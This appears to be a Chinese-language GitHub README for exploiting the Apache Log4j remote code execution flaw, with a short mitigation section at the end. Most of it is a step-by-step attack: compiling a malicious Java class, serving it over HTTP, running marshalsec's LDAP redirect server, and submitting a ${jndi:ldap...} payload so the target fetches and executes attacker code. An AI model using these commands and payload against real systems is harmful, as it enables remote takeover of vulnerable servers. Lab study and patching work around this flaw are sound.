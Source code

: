# Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

### 触发步骤


1. 先编译Log4jRCE，这个是恶意java代码,需要预先编译成恶意java类。注意不要用版本太高的jdk编译，不然jdk低版本的靶机可能无法执行。随后启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 0.0.0.0:8888`

2. 使用marshalsec的ldap server，访问这个ldap server内的任意资源都会被自动转发到http server的固定资源，这里需要转发到http server中的恶意java类文件
   1. `git clone https://github.com/mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server并配置转发资源 `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(这里写http server在公网上的地址及端口)/#Log4jRCE"`
      此时对靶机提交${jndi:idap://ip:port/{随便写}}即可，ldap server会自动从http server中下载指定资源并返回给靶机。
3. log4j.java是一个简单的漏洞环境实现，在代码中对应位置写好ldap的地址即可。底层原理就是靶机会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true
